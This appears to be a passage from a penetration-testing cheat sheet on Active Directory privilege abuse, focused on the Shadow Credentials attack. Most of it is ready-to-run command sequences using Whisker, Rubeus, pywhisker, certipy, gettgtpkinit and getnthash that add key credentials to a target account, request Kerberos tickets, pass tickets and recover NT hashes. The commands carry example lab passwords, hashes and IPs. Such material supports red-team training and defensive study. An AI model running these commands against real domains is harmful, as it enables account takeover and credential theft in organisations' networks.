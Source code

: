 Verify if user was added to the group:

```bash
net rpc group members "TargetGroup" -U "DOMAIN"/"ControlledUser"%"Password" -S "DC01.domain.com"
```

### <mark style="color:yellow;">Shadow Credentials</mark>

Shadow Credentials abuses Windows Hello for Business, it works by adding Key Credentials to `msDS-KeyCredentialLink` attribute of the target user/computer and then performing Kerberos authentication as that account using PKINIT which doesnt use pre-authentication but a certificate.

{% hint style="info" %}
A Shadow Credential Attack is gaining control over a user/computer by exploiting the password authentication function by adding an alternate credential as a certificate.&#x20;
{% endhint %}

#### Enumeration&#x20;

```powershell
# Enumeration from windows
$userSID = (Get-DomainUser -Identity jeffry).objectsid
Get-DomainObjectAcl -Identity gabriel | ?{$_.SecurityIdentifier -eq $userSID}

# Enumeration from Linux
python3 dacledit.py -target gabriel -principal jeffry -dc-ip 10.129.228.236 zencorp.local/jeffry:pass123 
```

#### Abusing Shadow Credentials from Windows

```powershell
# Get attribute value
.\Whisker.exe list /target:gabriel

# Generate certificate and open with Rubeus
.\Whisker.exe add /target:gabriel

# Open with Rubues
Rubeus.exe asktgt /user:gabriel /certificate:MIIJuAIBAzCCCXQGC..SNIP...6F9yJkzw28UnNcCs/0aclXHfAwICB9A= /password:"cw7I7QaHMS44q5xt" /domain:lab.local /dc:LAB-DC.lab.local /getcredentials /show

# Create sacrificial session
.\Rubeus.exe createnetonly /program:powershell.exe /show

# And then pass the ticket
.\Rubeus.exe ptt /ticket:doIGJjCCBiKgAwIBBaEDAgEWooIFRTCCBUFhggU9MIIFOaADA...SNIP...
```

#### Abusing Shadow Credentials from Linux

```bash
# Shadow Creds attack
python3 pywhisker.py -d lab.local -u jeffry -p Music001 --target gabriel --action add

# Shadow creds using certipy
proxychains -q certipy shadow auto -username restituyo@zencorp.local -hashes :98b590665f1025577b5b9bdc081927bb -account 'tangui' -dc-ip 172.19.99.10 -target dc04.zencorp.local -scheme ldap

# Use gettgtpkinit.py to generate TGT
python3 gettgtpkinit.py -cert-pfx ../pywhisker/BX4EWk8m.pfx -pfx-pass KQAx5lHP3h9TtzNly2Us lab.local/gabriel gabriel.ccache

# Use TGT to get hash
KRB5CCNAME=gabriel.ccache python3 getnthash.py -key 46c30d948cbe2ab0749d2f72896692c18673e9a4fae6438bff32a33afb49245a lab.local/gabriel 

# Use NT hash or TGT to impersonate.
```